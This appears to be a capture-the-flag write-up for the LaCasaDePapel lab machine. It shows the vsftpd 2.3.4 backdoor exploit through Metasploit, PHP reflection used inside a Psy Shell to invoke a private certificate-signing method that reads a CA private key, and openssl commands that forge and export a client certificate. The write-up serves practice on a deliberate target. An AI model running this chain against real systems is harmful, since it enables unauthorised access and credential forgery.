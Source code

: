 # LaCasaDePapel

10.10.10.131

# User

After an nmap scan it can be seen that the server is running vsftpd 2.3.4.
This version has a ```:)``` backdoor.

Msfconsole:
```
exploit/unix/ftp/vsftpd_234_backdoor
```

This opens the port ```6200``` to give us:

```
Psy Shell v0.9.9 (PHP 7.2.10 â cli) by Justin Hileman
```

This seems like a debugging cli for PHP

Running ```ls``` on the cli gives us a listing of local variables. It returns:

```
Variables: $tokyo
```

Then running ```show $tokyo``` gives a code listing

```
  > 2| class Tokyo {
    3| 	private function sign($caCert,$userCsr) {
    4| 		$caKey = file_get_contents('/home/nairobi/ca.key');
    5| 		$userCert = openssl_csr_sign($userCsr, $caCert, $caKey, 365, ['digest_alg'=>'sha256']);
    6| 		openssl_x509_export($userCert, $userCertOut);
    7| 		return $userCertOut;
    8| 	}
    9| }
```
An important bit off info is the file path ```/home/nairobi/ca.key```

Running private PHP methods:

```
$x = new Tokyo();
$reflector = new ReflectionObject($x);
$method = $reflector->getMethod('sign');
$method->setAccessible(true);

```

This will let us sign and create a user cert

I navigated to the https endpoint and downloaded the CA cert for use in the algo

We also need to make a User CSR **(Certificate Signing Request)**

```
openssl req -nodes -newkey rsa:2048 -keyout user.key -out user.csr -subj "O=La Casa De Papel/CN=lacasadepapel.htb"
```

By running this command:
```
echo $method->invoke($x, "-----BEGIN CERTIFICATE-----
MIIC6jCCAdICCQDISiE8M6B29jANBgkqhkiG9w0BAQsFADA3MRowGAYDVQQDDBFs
YWNhc2FkZXBhcGVsLmh0YjEZMBcGA1UECgwQTGEgQ2FzYSBEZSBQYXBlbDAeFw0x
OTAxMjcwODM1MzBaFw0yOTAxMjQwODM1MzBaMDcxGjAYBgNVBAMMEWxhY2FzYWRl
cGFwZWwuaHRiMRkwFwYDVQQKDBBMYSBDYXNhIERlIFBhcGVsMIIBIjANBgkqhkiG
9w0BAQEFAAOCAQ8AMIIBCgKCAQEAz3M6VN7OD5sHW+zCbIv/5vJpuaxJF3A5q2rV
QJNqU1sFsbnaPxRbFgAtc8hVeMNii2nCFO8PGGs9P9pvoy8e8DR9ksBQYyXqOZZ8
/rsdxwfjYVgv+a3UbJNO4e9Sd3b8GL+4XIzzSi3EZbl7dlsOhl4+KB4cM4hNhE5B
4K8UKe4wfKS/ekgyCRTRENVqqd3izZzz232yyzFvDGEOFJVzmhlHVypqsfS9rKUV
ESPHczaEQld3kupVrt/mBqwuKe99sluQzORqO1xMqbNgb55ZD66vQBSkN2PwBeiR
PBRNXfnWla3Gkabukpu9xR9o+l7ut13PXdQ/fPflLDwnu5wMZwIDAQABMA0GCSqG
SIb3DQEBCwUAA4IBAQCuo8yzORz4pby9tF1CK/4cZKDYcGT/wpa1v6lmD5CPuS+C
hXXBjK0gPRAPhpF95DO7ilyJbfIc2xIRh1cgX6L0ui/SyxaKHgmEE8ewQea/eKu6
vmgh3JkChYqvVwk7HRWaSaFzOiWMKUU8mB/7L95+mNU7DVVUYB9vaPSqxqfX6ywx
BoJEm7yf7QlJTH3FSzfew1pgMyPxx0cAb5ctjQTLbUj1rcE9PgcSki/j9WyJltkI
EqSngyuJEu3qYGoM0O5gtX13jszgJP+dA3vZ1wqFjKlWs2l89pb/hwRR2raqDwli
MgnURkjwvR1kalXCvx9cST6nCkxF2TxlmRpyNXy4
-----END CERTIFICATE-----
", "-----BEGIN CERTIFICATE REQUEST-----
MIICfDCCAWQCAQAwNzEZMBcGA1UECgwQTGEgQ2FzYSBEZSBQYXBlbDEaMBgGA1UE
AwwRbGFjYXNhZGVwYXBlbC5odGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEK
AoIBAQCmUq+K7RExpveU8RRcxyzhHRDAhhub7cjBULLU+1frmHPEBxleJ5loqORE
X1mGQdIlN2sksYFcvDNW2n7JExhSwKXw21bhyQdGQYg+7I1Y43IsEOZSf/xlOJRF
6/FnHkXHRZTtJm30HJ6OpApTeVHjrowCganjIYAgotdG3C1gUYU9seu6tNeOil3A
9ta99u3JYRWi884247SgupsurZ2TVheZ6OxoYBaEgFVv4trW6QgB8VJsEOg937Tu
Tb+dTjsZa5EwjuzllUjRTk2veUJE0J+BWdFc9O5oBPhoF+Px8+3CTsKWBiKfRtyG
uq8NTL4MfnjqBEdXvwc+kUpOi0x7AgMBAAGgADANBgkqhkiG9w0BAQsFAAOCAQEA
dxTb62Dn0aBhksH/oJpoNomQlqj7hEsQestu6Za5FREyJJu6AiuYzGnLI89ZvlEv
YMtvTErU60NIvVXZZcrNopXyuiceM8HPvEbIQFaOhh/iz62fNjAddOdIItjgAK5o
EmiyDwgABBAFDHzP5hLZrhQ0YcrkZ0LwuVdsUgYjWo83HJkUtX64nMq+Yhdmvq2n
LYCgyChmMmH66aEYAHWOZPONCTIq4tqmWGr9SPPTAt683OGqwWoxB0oHKkFtR6vu
KfL6K9/P96nYpP4beXMkWZDduGO8V4ELSgAKWoGRtOBf7732H1oUvYeJgIbEEXzt
6POSWQ380THZwsyRm6YyLg==
-----END CERTIFICATE REQUEST-----");
```

It provides us with a signed certificate!


openssl pkcs12 -export -inkey user.key -in signed.pem -out signed.p12